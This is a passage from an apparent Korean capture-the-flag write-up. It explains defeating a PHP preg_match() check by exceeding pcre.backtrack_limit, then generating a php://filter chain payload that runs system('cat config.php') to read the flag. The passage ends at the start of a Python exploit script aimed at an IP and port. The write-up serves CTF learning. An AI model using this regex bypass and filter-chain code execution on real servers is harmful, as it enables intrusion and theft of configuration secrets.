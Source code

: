 문제에서 `pcre.backtrack_limit` 값은 1000으로 설정되어있다. 그리고, 위에 `PCRE JIT Target`을 보면 `x86 64bit`으로 되어있다. 즉, 8 X 1000 bytes 보다 큰 입력을 주면 `preg_match()` 함수를 무력화 시킬 수 있다는 것이다.            

https://github.com/synacktiv/php_filter_chain_generator    
       

RCE를 위해 `php://filter`에 대한 payload를 생성해주는 툴을 사용했다. 

```bash
python3 php_filter_chain_generator.py --chain '<?php system("cat config.php") ?>'
```         
     
위 명령을 통해 나온 결과에 `+` 문자를 추가하여 8000 bytes를 넘도록 해주었다. (`cat config.php` 명령을 입력한 이유는 `config.php`에 `flag` 변수가 존재하기 때문이다.)
     
## Exploit Code     
      
```python
import requests, string, sys, itertools
# MD5: 36f4dab9f17485e9efc5a1c4e4cbedfb

url = "http://3.34.190.217:24913"

```